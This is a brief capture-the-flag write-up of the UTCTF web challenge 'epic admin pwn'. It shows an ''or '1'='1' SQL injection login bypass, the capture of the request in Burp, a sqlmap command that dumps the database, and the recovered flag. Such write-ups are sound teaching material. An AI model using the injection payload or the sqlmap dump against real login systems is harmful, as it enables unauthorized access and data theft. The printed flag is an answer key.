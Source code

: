 # [cd ../](../../index.md)
# epic admin pwn
> this challenge is epic i promise  
> the flag is the password  
> by matt  
> PTS: 50

## Link
[link](http://web2.utctf.live:5006/)

# Start
![web](web.png)  

## Getting the sqli

Try some basic sqli!

USERNAME | PASSWORD
--- | ---
`admin` | `'or '1' ='1`

Will work!  
![web_sqli](web_sqli.png)  
So we have an sqli on the `pass` parameter!!

## Getting the flag

Open burp and send `asd:asd`  
![burp](burp.png)  

- Right click and `Copy to file`  
  Save the file as `login.req`

```
sqlmap.py -r login.req -p pass --dump
```
![sqlmap](sqlmap.png)

# Got the flag
```
utflag{dual1pa1sp3rf3ct}
```
